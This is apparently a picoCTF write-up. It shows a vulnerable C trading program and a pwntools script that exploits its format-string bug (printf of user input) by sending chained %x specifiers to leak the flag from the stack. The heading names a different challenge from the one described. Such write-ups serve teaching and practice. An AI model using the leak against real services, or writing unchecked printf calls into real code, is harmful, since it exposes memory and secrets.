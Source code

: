 # Writeup - basic-file-exploit
Category: Binary Exploitation, Points: 100


## Descpriton

> I decided to try something noone else has before. I made a bot to automatically trade stonks for me using AI and machine learning. I wouldn't believe you if you told me it's unsecure!

We can connect to the program with netcat: `nc mercury.picoctf.net 6989`

A source file is given


## Vulnerability

Given the source:

```c
#include <stdlib.h>
#include <stdio.h>
#include <string.h>
#include <time.h>

#define FLAG_BUFFER 128
#define MAX_SYM_LEN 4

typedef struct Stonks {
  int shares;
  char symbol[MAX_SYM_LEN + 1];
  struct Stonks *next;
} Stonk;

typedef struct Portfolios {
  int money;
  Stonk *head;
} Portfolio;

int view_portfolio(Portfolio *p) {
  if (!p) {
    return 1;
  }
  printf("\nPortfolio as of ");
  fflush(stdout);
  system("date"); // TODO: implement this in C
  fflush(stdout);

  printf("\n\n");
  Stonk *head = p->head;
  if (!head) {
    printf("You don't own any stonks!\n");
  }
  while (head) {
    printf("%d shares of %s\n", head->shares, head->symbol);
    head = head->next;
  }
  return 0;
}

Stonk *pick_symbol_with_AI(int shares) {
  if (shares < 1) {
    return NULL;
  }
  Stonk *stonk = malloc(sizeof(Stonk));
  stonk->shares = shares;

  int AI_symbol_len = (rand() % MAX_SYM_LEN) + 1;
  for (int i = 0; i <= MAX_SYM_LEN; i++) {
    if (i < AI_symbol_len) {
      stonk->symbol[i] = 'A' + (rand() % 26);
    } else {
      stonk->symbol[i] = '\0';
    }
  }

  stonk->next = NULL;

  return stonk;
}

int buy_stonks(Portfolio *p) {
  if (!p) {
    return 1;
  }
  char api_buf[FLAG_BUFFER];
  FILE *f = fopen("api","r");
  if (!f) {
    printf("Flag file not found. Contact an admin.\n");
    exit(1);
  }
  fgets(api_buf, FLAG_BUFFER, f);

  int money = p->money;
  int shares = 0;
  Stonk *temp = NULL;
  printf("Using patented AI algorithms to buy stonks\n");
  while (money > 0) {
    shares = (rand() % money) + 1;
    temp = pick_symbol_with_AI(shares);
    temp->next = p->head;
    p->head = temp;
    money -= shares;
  }
  printf("Stonks chosen\n");

  // TODO: Figure out how to read token from file, for now just ask

  char *user_buf = malloc(300 + 1);
  printf("What is your API token?\n");
  scanf("%300s", user_buf);
  printf("Buying stonks with token:\n");
  printf(user_buf);

  // TODO: Actually use key to interact with API

  view_portfolio(p);

  return 0;
}

Portfolio *initialize_portfolio() {
  Portfolio *p = malloc(sizeof(Portfolio));
  p->money = (rand() % 2018) + 1;
  p->head = NULL;
  return p;
}

void free_portfolio(Portfolio *p) {
  Stonk *current = p->head;
  Stonk *next = NULL;
  while (current) {
    next = current->next;
    free(current);
    current = next;
  }
  free(p);
}

int main(int argc, char *argv[])
{
  setbuf(stdout, NULL);
  srand(time(NULL));
  Portfolio *p = initialize_portfolio();
  if (!p) {
    printf("Memory failure\n");
    exit(1);
  }

  int resp = 0;

  printf("Welcome back to the trading app!\n\n");
  printf("What would you like to do?\n");
  printf("1) Buy some stonks!\n");
  printf("2) View my portfolio\n");
  scanf("%d", &resp);

  if (resp == 1) {
    buy_stonks(p);
  } else if (resp == 2) {
    view_portfolio(p);
  }

  free_portfolio(p);
  printf("Goodbye!\n");

  exit(0);
}
```
As we can see in the source. there is a `printf(user_buf)` which does not have any formatting. This is a format-string vulnerability.


## Exploit

Here the `%x` symbol gives you the hexadecimal values. Since the `printf(user_buf)` line is not formatted if we give `%x` symbol as input it pops of values from the stack and prints them.

Steps:
1. For the first question type `1`.
2. For the question `What is your API token?` give a bunch of `%x` to leak out the values of some variables before `user_buf`. It will give you the output in hexadecimal.
3. Use an ASCII converter to convert hexadecimal into ASCII text.
4. Reverse the ASCII text and print it.

Here's the exploit in python - this script does all of the 4 steps:

```python
import sys
from pwn import *

r = remote('mercury.picoctf.net', 6989) if sys.argv[1] == "remote" else ELF("./vuln").process()

r.recvuntil("View my")
r.send("1\n")
r.recvuntil("What is your API token?\n")
r.send("%x" + "-%x"*100 + "\n")
r.recvline()

x = r.recvline()
x = x[:-1].decode()

s = ""
for i in x.split('-'):
  if len(i) != 8: continue
  a = bytes.fromhex(i)
  for b in reversed(a): s += chr(b) if b > 32 and b < 128 else ""
print(s)
```


